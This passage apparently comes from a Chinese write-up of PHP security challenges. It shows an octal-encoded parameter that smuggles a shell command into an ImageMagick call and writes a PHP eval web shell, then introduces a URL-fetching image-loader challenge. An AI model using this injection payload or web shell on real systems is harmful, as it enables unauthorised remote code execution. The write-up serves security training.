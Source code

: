 ```
size=0\073\145\143\150\157\40\47\74\77\160\150\160\40\145\166\141\154\50\44\137\107\105\124\133\61\135\51\73\77\76\47\40\76\40\163\150\145\154\154\56\160\150\160\073
```

最终执行的命令

```shell
/usr/bin/convert images/image.png --resize 0;echo '<?php eval($_GET[1]);?>' > shell.php;
```

写入成功

![](http://ww1.sinaimg.cn/large/de75fd55gy1g1bxcudmt2j20r30fc0u1.jpg)



## 20 - Stocking

```php
set_error_handler(function ($no, $str, $file, $line) {
    throw new ErrorException($str, 0, $no, $file, $line);
}, E_ALL);

class ImageLoader {
    public function getResult($uri) {
        if (!filter_var($uri, FILTER_VALIDATE_URL)) {
            return '<p>Please enter valid uri</p>';
        }

        try {
            $image = file_get_contents($uri);
            $path = "./images/" . uniqid() . '.jpg';
            file_put_contents($path, $image);
            if (mime_content_type($path) !== 'image/jpeg') {
                unlink($path);
                return '<p>Only .jpg files allowed</p>';
            }
        } catch (Exception $e) {
            return '<p>There was an error: ' .
                $e->getMessage() . '</p>';
        }

        return '<img src="' . $path . '" width="100"/>';
    }
}

echo (new ImageLoader())->getResult($_GET['img']);
```

先看看开头这个设置

```php
set_error_handler ( callable $error_handler [, int $error_types = E_ALL | E_STRICT ] ) : mixed
// 设置用户的函数 (error_handler) 来处理脚本中出现的错误。
// 本函数可以用你自己定义的方式来处理运行中的错误， 例如，在应用程序中严重错误发生时，或者在特定条件下触发了一个错误(使用 trigger_error())，你需要对数据/文件做清理回收。
```
